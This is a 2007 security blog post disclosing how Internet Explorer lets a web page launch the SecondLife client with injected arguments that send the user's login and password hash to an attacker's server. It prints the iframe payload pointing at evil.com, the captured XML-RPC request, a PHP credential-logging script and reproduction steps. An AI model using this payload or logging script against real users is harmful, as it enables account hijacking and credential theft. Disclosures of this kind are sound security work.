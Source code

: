 ```yaml
---
title: IE Pwns SecondLife
author: pdp
date: Sun, 16 Sep 2007 10:37:53 GMT
template: post.jade
category: fucked
---
```


First of all, I must say that I am not really a **bug hunter**. I am more on the side of **tactical exploitation** - you know figuring out your way through the system even if it requires bug hunting and reverse engineering at the end. Anyway, the news is that IE (Internet Explorer) pwns [SecondLife](http://www.secondlife.com).

Before going into details why and how it happens, I would like to bring your attention on SecondLife for a moment. For those of you who don't follow developing technologies, SecondLife is a massive virtual world located on a couple of hundred workstations on-line. The cool thing about SecondLife is that you can do all kinds of things, like expressing your artistic side, communicating and of course making business. There is some money into SecondLife. Not that long time ago, there was this girl who made **$1000000** (**a million**) out of the on-line world. This means that crooks maybe after your virtual persona rather then your physical self. Therefore, security in virtual worlds may become almost as important as security in the physical world.

Now let's get back to the real issue. Attackers can steal the victim's login credentials, therefore hijacking their virtual, SecondLife persona, by simply tricking the victim into visiting a malicious Web page. Here is an example:

```html
<iframe src='secondlife://" -autologin -loginuri "http://evil.com/sl/record-login.php'></iframe>
```

Upon visiting the malicious page, the SecondLife client will launch and try to login automatically (**-autologin**) via the CGI located at _http://evil.com/sl/record-login.php_. At that moment, the following request is generated to the malicious CGI script. Yes, it is XML-RPC remote call:

```php
[HTTP_RAW_POST_DATA] => <methodCall>
    <methodName>login_to_simulator</methodName>
    <params>
        <param>
            <value>
                <struct>
                    <member>
                        <name>first</name>
                        <value>
                        <string>Elm</string>
                    </value>
                </member>
                <member>
                    <name>last</name>
                    <value>
                    <string>Blanco</string>
                </value>
            </member>
            <member>
                <name>passwd</name>
                <value>
                    <string>$1$**[MD5 Hash of the password here]**</string>
                </value>
            </member>
            <member>
                <name>start</name>
                <value>
                    <string>last</string>
                </value>
            </member>
            <member>
                <name>version</name>
                <value>
                    <string>1.18.2.0</string>
                </value>
            </member>
            <member>
                <name>channel</name>
                <value>
                    <string>Second Life Release</string>
                </value>
            </member>
            <member>
                <name>platform</name>
                <value>
                    <string>Win</string>
                </value>
            </member>
            ...
            ...
            ...
</methodCall>
```

Notice **[MD5 Hash of the password here]** place holder. This is where the user password is located. The password is MD5 hashed for security reasons. Well, this is definitely a good thing, although completely pointless since there are plenty of rainbow tables out there, which attackers can use to convert the hash back to a normal string.

> Keep in mind that most attackers don't even have to convert the hash back to a password string. Attackers can login with the hash itself by forging a request to one of the SecondLife authentication servers. The unhashed password is only needed in situations where the attacker wants to explore other on-line service the victim is currently registered with.

Unfortunately, I cannot construct on-line proof of concept, due to the fact that I need to expose this server to all sorts of attacks, but you can try to repeat my steps. Here is how you can do it:

1. **Get** Apache with PHP
2. **Put** the following script into a file called _login.php_:
```php
<?php
ob_start();
print_r($GLOBALS);
error_log(ob_get_contents(), 0);
ob_end_clean();
?>
```
3. **Tail** -f the PHP error log file. Or if you don't know what I am talking about, just skip this step.
4. **Make** a page with the following HTML body:
```html
<iframe src='secondlife://" -autologin -loginuri "http://localhost/login.php'></iframe>
```
5. **Open** the page inside Internet Explorer (both IE6 and IE7 are exploitable).
6. **After** the SecondLife client fails to login, you will get a message within your php error log, which gives you the credentials plus some other useful info about the victim.

_It is that simple. It is automatic and the user doesn't have to do anything. In other words, no user interaction is required. I would rate this issue as Medium risk although if the victim have a lot of Linden dollars ($L) then the situation becomes quite critical (from personal point of view). At the time of writing 1$ can be exchanged for 268.15$L._

